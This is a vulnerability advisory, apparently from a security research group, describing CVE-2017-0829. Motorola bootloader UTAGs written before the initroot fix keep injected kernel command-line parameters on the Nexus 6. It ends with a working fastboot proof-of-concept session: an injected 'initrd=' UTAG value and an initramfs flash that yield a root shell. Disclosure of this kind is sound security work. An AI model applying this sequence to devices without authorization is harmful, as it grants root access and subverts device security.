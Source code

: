```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-05'
    - type: 'report'
      date: '2017-06-05'
      arg: 'Android Security'
    - type: 'deadline'
      date: '2017-09-03'
    - type: 'vendor-triage'
      date: '2017-06-13'
      arg: 'Moderate'
    - type: 'vendor-advisory'
      date: '2017-10-02'
    - type: 'release'
      date: '2018-01-09'

product: Google Nexus 6
severity: 'moderate'
alephid: ALEPH-2017025
cve: CVE-2017-0829
date: '2018-01-09'
vulnerable: Android 7.1.1 NGI55D and below
references:
    - src: 'Pixel / Nexus Security Bulletin—October 2017'
      url: 'https://source.android.com/security/bulletin/pixel/2017-10-01'
  
title: 'Motorola Bootloader Old UTAGs may lead to Kernel Command-line Injection'

---
```

The fix for @CVE-2016-10277 (aka [initroot](https://github.com/alephsecurity/research/tree/master/initroot)) was to sanitize UTAGs (filtering ' ' and '=' for example), such that the adversary cannot inject arbitrary parameters into the kernel command line. 

The problem, however, is that the UTAGs, in the vulnerable versions of Android, are sanitized at the time of their modification -- when the user issues the `fastboot config` command, and not when they are actually inserted into the command line. 
Therefore, had the attack occurred before the bootloader was updated, the offending payload would remain intact:

```
$ fastboot getvar version-bootloader
version-bootloader: moto-apq8084-72.03
finished. total time: 0.001s

$ fastboot oem config fsg-id
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x11000000,1519997
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.009s]
finished. total time: 0.009s

$ fastboot flash a /aosp/misc/initroot.cpio.gz
target reported max download size of 536870912 bytes
sending 'a' (1484 KB)...
OKAY [  0.048s]
writing 'a'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 0.051s

$ fastboot continue
resuming boot...
OKAY [  0.001s]
finished. total time: 0.001s

$ shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```
